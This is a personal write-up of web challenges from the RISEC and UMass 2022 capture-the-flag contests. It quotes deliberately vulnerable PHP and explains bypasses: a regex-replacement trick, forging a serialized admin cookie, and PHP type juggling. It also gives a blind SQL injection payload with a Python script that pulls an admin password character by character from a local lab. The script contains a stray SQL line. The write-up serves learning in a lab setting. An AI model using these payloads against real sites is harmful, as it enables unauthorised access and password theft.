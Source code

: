 ```yaml
---
description: 'Note : A JOURNEY TO GAIN KNOWLEDGE'
---
```


# RISEC CTF + UMass CTF 2022

<mark style="color:blue;">`Web Challenge`</mark>

## RISEC CTF&#x20;

### Pretty Horrible Program 1

```
  <?php
  if (isset($_GET['bingus'])) {
    $input = $_GET['bingus'];
    $to_replace = 'bingus';
    $clean_string = preg_replace("/$to_replace/", '', $input);
    echo "<p>Your string is: $clean_string</p>";
    if ($clean_string == $to_replace) {
      echo "<h2 class=\"answer\">Bingus <span style=\"color: green;\">IS</span> your beloved</h2>";
      output_flag();
    } else {
      echo "<h2 class=\"answer\">Bingus <span style=\"color: red;\">IS NOT</span> your beloved</h2>";
    }
  }
  ?>
```

* Notice that $clean\_string genererated by replacing&#x20;
* So that we just input something that after replacing. it's equal to 'bingus'

demo:

![](<../.gitbook/assets/image (3) (1).png>)

![](<../.gitbook/assets/image (8) (1).png>)



### Pretty Horrible Program 2

```
class User
  {
    public $role = 'Admin'; 	
}

$default_user = new User;
$_COOKIE = serialize($default_user);
setcookie(
    'user',
    serialize($default_user)
  );
$a=unserialize($_COOKIE);
echo "$_COOKIE"
```

### Pretty Horrible Program 3

```
<?php
  if (isset($_GET['input1']) and isset($_GET['input2'])) {
    if ($_GET['input1'] == $_GET['input2']) {
      print '<h3 class="error">Nice try, but it won\'t be that easy ;)</h3>';
    } else if (hash("sha256", $_GET['input1']) === hash("sha256", $_GET['input2'])) {
      output_flag();
    } else {
      print '<h3 class="error">Your inputs don\'t match</h3>';
    }
  }
  ?>
  <p>See if you can make the sha256 hashes match</p>
  <br />
  <a href="/php3/index.php?source=true">Source Code</a>
  <form method="get">
    <input type="text" required name="input1" placeholder="Input 1" />
    <p>Hash: <?php if (isset($_GET['input1'])) print hash("sha256", $_GET['input1']) ?></p>
    <input type="text" required name="input2" placeholder="Input 2" />
    <p>Hash: <?php if (isset($_GET['input2'])) print hash("sha256", $_GET['input2']) ?></p>
    <input type="submit" />
  </form>
</body>

</html>
<?php
```

Workflow:

* At first, i just try to find around the key work "SHA256 collision" but we got [<mark style="color:blue;">this one</mark> ](https://crypto.stackexchange.com/questions/47809/why-havent-any-sha-256-collisions-been-found-yet)<mark style="color:blue;">,</mark> it takes about ≈3.6×1013 years to find, so that it's not a practical option.
* After that i focused on '==' in php. Searching around and i got [<mark style="color:blue;">this</mark> ](https://www.invicti.com/blog/web-security/php-type-juggling-vulnerabilities/)and [<mark style="color:blue;">this</mark>](https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf)<mark style="color:blue;"></mark>
* Now you just put \[] in input and get flag.

## UMass CTF

## venting

This challenge ended and the website was turned off. So i build it in docker from [<mark style="color:blue;">here</mark>](https://github.com/UMassCybersecurity/UMassCTF-2022-challenges)<mark style="color:blue;"></mark>

* when you connectn try to see history in burpsuite, you can get the link redirect to the login page
* Now read the hint with 'admin' in user and  password does't have fillter so that mean that may be SQLI. Exactly. that's is blind SQLI
* I solve this challenge by burpsuite as same as [<mark style="color:blue;">this lab</mark>](https://portswigger.net/web-security/sql-injection/blind)<mark style="color:blue;"></mark>

otherway, try to bruteforce by python request:

```
import requests, string

url = "http://localhost:49153/fff5bf676ba8796f0c51033403b35311/login"
s = requests.session()

passwordRetrieve = ""
# ' or (select 'a' from users where username='admin' and length(Password)>36)='a

def solve():
    global passwordRetrieve
    index = 0
    while True:
        for char in string.printable:
            usernamefield = "\\"
            passwordfield = f"' or (select 'a' from users where username='admin' and substr(Password,{index},1)='{char}')='a"
            postParam = {'user': usernamefield, 'pass': passwordfield}
            response = s.post(url, data=postParam).text
            if "Invalid" not in response:
                passwordRetrieve += char
                index += 1
                print(passwordRetrieve)
                break
        if (index == 37):
            break
SELECT * from users WHERE username='admin\' AND Password = ''or 'True'
solve()
```





Thanks for reading. Have a good day :heart: !



Contact:

* <mark style="color:blue;">``</mark><img src="../.gitbook/assets/image (6) (1).png" alt="" data-size="line"><mark style="color:blue;"></mark>[<mark style="color:blue;">facebook</mark> ](https://www.facebook.com/rong.truong.372)<mark style="color:blue;"></mark>
